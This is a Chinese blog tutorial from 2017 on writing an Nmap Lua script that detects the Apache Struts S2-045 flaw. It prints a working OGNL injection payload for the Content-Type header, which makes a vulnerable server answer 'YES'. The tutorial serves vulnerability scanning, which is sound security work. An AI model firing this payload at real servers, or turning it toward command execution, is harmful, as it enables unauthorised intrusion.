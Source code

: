 ```yaml
---
layout: post
title:  "Struts S2-045 Nmap扫描脚本"
date:   2017-06-02
categories: nmap
permalink: /archivers/nmap-write-script
description: "本文介绍一下Nmap的扩展插件编写"
---
```

本文介绍一下Nmap的扩展插件编写

* 目录
{:toc}

## 0x00 Nmap脚本简介

夜无眠，看了一下Nmap官方的英文API文档(全是English)，瞬间心态崩塌，不想吐槽它们的nmap官网前端太丑了=。=，但是都是大牛啊，挺敬佩开源开发者的。

Nmap最灵活的就是它的`scripts`了，在渗透测试中我们经常会用它来扫描服务、漏洞，而且很多脚本也可以用于漏洞利用，总之就是很强大啦～ 具体的介绍在这里：[Nmap脚本使用指南](https://zhuanlan.zhihu.com/p/26618074)

看过《Nmap渗透指南》一书，发现书中对于Nmap脚本的编写是轻描淡写，所以本文就利用一个漏洞实例给大家详细说说这个脚本如何开发的。
`PS：并没有说这本书不好，其实很好很好的。`

## 0x01 实战编写前的思路

今天我用`Struts S2-045`这个漏洞来编写一个漏洞检测脚本。

PS：此文需要一点`Lua`语言基础。我也就看了个半调子 ，才写的这个文章，Lua大牛误喷。

思路： 它主要是给服务器端发送一个http请求，这个请求里的`Content-type`中就是我们的利用代码了。在这里可以称之为`Payload`。

相关链接：[Struts 2 S2-045 Jakarta插件远程代码执行漏洞加固方法](https://zhuanlan.zhihu.com/p/25639832)

我们先把`Payload`拿出来：

```
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('YES')).(#o.close())}
```

可以看到有一个YES，当服务器端相应YES的时候，我们就判定这个服务器存在此漏洞。

根据官方的文档，我们先载入指定的扩展库：

```lua
--
-- Created by IntelliJ IDEA.
-- User: liyingzhe
-- Date: 17-6-3
-- Time: 上午2:07
-- To change this template use File | Settings | File Templates.
--
local http = require "http"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local vulns = require "vulns"
```
这些基本用于发送HTTP请求、字符串操作、漏洞结果生成、错误调试
